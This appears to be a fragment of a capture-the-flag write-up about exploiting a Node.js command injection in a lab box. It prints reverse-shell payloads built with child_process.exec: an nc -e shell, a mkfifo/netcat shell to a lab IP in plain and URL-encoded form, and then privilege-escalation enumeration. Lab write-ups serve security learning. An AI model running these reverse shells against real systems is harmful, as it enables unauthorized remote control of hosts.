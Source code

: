 When to PayloadAllTheThings for
```javascript
require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')
// changed to avoid the -e probably unsupported, like in the writeups
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.195.50 4444 >/tmp/f')
```
Url encoded that with cyberchef this time.

```javascript
require%28%27child%5Fprocess%27%29%2Eexec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E195%2E50%204444%20%3E%2Ftmp%2Ff%27%29

```

![vuln-message](Screenshots/vuln-exploited.png)

AND

![stab](Screenshots/shell-stab.png)

user.txt is here:
```bash
user@ubuntu:/var/web$ find / -type f -name user.txt 2>/dev/null
/home/user/user.txt
```
PrivEsc
```bash
user@ubuntu:/home/v0id$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

# AttackBox
Searchsploit sudo 1.8
Read a couple tried a couple, unsuccessful
```
